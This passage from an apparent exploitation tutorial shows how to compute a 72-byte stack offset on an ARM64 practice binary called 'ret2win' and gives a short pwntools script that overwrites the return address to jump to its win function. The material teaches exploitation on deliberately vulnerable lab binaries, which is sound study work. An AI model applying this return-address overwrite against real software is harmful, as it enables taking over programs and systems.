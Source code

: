 Then: **`0xfffffffff148 - 0xfffffffff100 = 0x48 = 72`**

<figure><img src="../../../.gitbook/assets/image (1207).png" alt="" width="339"><figcaption></figcaption></figure>

## No PIE

### Regular

Get the address of the **`win`** function:

```bash
objdump -d ret2win | grep win
ret2win:     file format elf64-littleaarch64
00000000004006c4 <win>:
```

Exploit:

```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p64(0x00000000004006c4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```

<figure><img src="../../../.gitbook/assets/image (1208).png" alt="" width="375"><figcaption></figcaption></figure>

### Off-by-1
